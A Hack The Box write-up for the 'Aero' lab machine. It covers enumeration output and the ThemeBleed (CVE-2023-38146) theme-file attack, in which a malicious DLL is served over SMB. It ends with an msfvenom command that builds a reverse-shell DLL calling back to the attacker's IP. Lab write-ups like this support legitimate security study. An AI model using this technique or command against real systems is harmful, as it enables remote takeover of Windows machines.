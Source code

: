 ```yaml
---
title: "Aero"
date: 2024-02-21
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "aero", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


## Enumeration 

### Nmap

```sh
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Aero Theme Hub
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
### 80-HTTP

#### Gobuster

```sh
/home
/upload
/.
```

#### Web

![screenshot](/assets/images/aero1.png)

http://10.10.11.237/home#upload

![screenshot](/assets/images/aero2.png)

![screenshot](/assets/images/aero3.png)

Allowed upload
- `.theme`
- `.themepack`

## Foothold

>CVE-2023-38146
https://github.com/exploits-forsale/themebleed
- The theme tries to load the style file from a SMB share on my host.
- That triggers interaction with a file ending in `_vrf.dll`, first opening it with the `CreateFile` API to read it and verify it's signature, and then opening it with the `LoadLibrary` API. 
- The SMB server uses the differences in how it's opened to return either the legit DLL or the malicious one. 

### Reverse shell DLL

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.42 LPORT=445 -f dll > VerifyThemeVersion
```
